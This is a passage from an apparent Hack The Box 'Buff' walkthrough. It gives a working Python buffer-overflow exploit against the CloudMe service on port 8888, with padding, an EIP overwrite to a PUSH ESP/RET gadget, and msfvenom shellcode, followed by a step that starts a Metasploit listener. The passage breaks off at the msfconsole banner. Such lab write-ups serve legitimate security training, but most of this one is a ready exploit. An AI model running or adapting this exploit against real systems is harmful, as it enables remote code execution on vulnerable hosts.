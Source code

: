 ```
    # Start the CloudMe service and run the script.

    import socket

    target = "127.0.0.1"

    padding1   = b"\x90" * 1052
    EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
    NOPS       = b"\x90" * 30

    #msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
    payload =  b""
    payload += b"\xbd\xaf\x84\x7b\x34\xda\xdb\xd9\x74\x24\xf4\x5f"
    payload += b"\x2b\xc9\xb1\x52\x31\x6f\x12\x83\xef\xfc\x03\xc0"
    payload += b"\x8a\x99\xc1\xe2\x7b\xdf\x2a\x1a\x7c\x80\xa3\xff"
    payload += b"\x4d\x80\xd0\x74\xfd\x30\x92\xd8\xf2\xbb\xf6\xc8"
    payload += b"\x81\xce\xde\xff\x22\x64\x39\xce\xb3\xd5\x79\x51"
    payload += b"\x30\x24\xae\xb1\x09\xe7\xa3\xb0\x4e\x1a\x49\xe0"
    payload += b"\x07\x50\xfc\x14\x23\x2c\x3d\x9f\x7f\xa0\x45\x7c"
    payload += b"\x37\xc3\x64\xd3\x43\x9a\xa6\xd2\x80\x96\xee\xcc"
    payload += b"\xc5\x93\xb9\x67\x3d\x6f\x38\xa1\x0f\x90\x97\x8c"
    payload += b"\xbf\x63\xe9\xc9\x78\x9c\x9c\x23\x7b\x21\xa7\xf0"
    payload += b"\x01\xfd\x22\xe2\xa2\x76\x94\xce\x53\x5a\x43\x85"
    payload += b"\x58\x17\x07\xc1\x7c\xa6\xc4\x7a\x78\x23\xeb\xac"
    payload += b"\x08\x77\xc8\x68\x50\x23\x71\x29\x3c\x82\x8e\x29"
    payload += b"\x9f\x7b\x2b\x22\x32\x6f\x46\x69\x5b\x5c\x6b\x91"
    payload += b"\x9b\xca\xfc\xe2\xa9\x55\x57\x6c\x82\x1e\x71\x6b"
    payload += b"\xe5\x34\xc5\xe3\x18\xb7\x36\x2a\xdf\xe3\x66\x44"
    payload += b"\xf6\x8b\xec\x94\xf7\x59\xa2\xc4\x57\x32\x03\xb4"
    payload += b"\x17\xe2\xeb\xde\x97\xdd\x0c\xe1\x7d\x76\xa6\x18"
    payload += b"\x16\x73\x3d\x2c\xe3\xeb\x43\x30\xf4\x79\xca\xd6"
    payload += b"\x60\x6e\x9b\x41\x1d\x17\x86\x19\xbc\xd8\x1c\x64"
    payload += b"\xfe\x53\x93\x99\xb1\x93\xde\x89\x26\x54\x95\xf3"
    payload += b"\xe1\x6b\x03\x9b\x6e\xf9\xc8\x5b\xf8\xe2\x46\x0c"
    payload += b"\xad\xd5\x9e\xd8\x43\x4f\x09\xfe\x99\x09\x72\xba"
    payload += b"\x45\xea\x7d\x43\x0b\x56\x5a\x53\xd5\x57\xe6\x07"
    payload += b"\x89\x01\xb0\xf1\x6f\xf8\x72\xab\x39\x57\xdd\x3b"
    payload += b"\xbf\x9b\xde\x3d\xc0\xf1\xa8\xa1\x71\xac\xec\xde"
    payload += b"\xbe\x38\xf9\xa7\xa2\xd8\x06\x72\x67\xe8\x4c\xde"
    payload += b"\xce\x61\x09\x8b\x52\xec\xaa\x66\x90\x09\x29\x82"
    payload += b"\x69\xee\x31\xe7\x6c\xaa\xf5\x14\x1d\xa3\x93\x1a"
    payload += b"\xb2\xc4\xb1"
    overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

    buf = padding1 + EIP + NOPS + payload + overrun 

    try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
    except Exception as e:
        print(sys.exc_value)

    ```
    
3. Start a `msf` listener and run the exploit.

        kali@kali:~/Desktop/htb/buff$ sudo msfconsole
        [sudo] password for kali:

        Call trans opt: received. 2-19-98 13:24:18 REC:Loc

        Trace program: running
```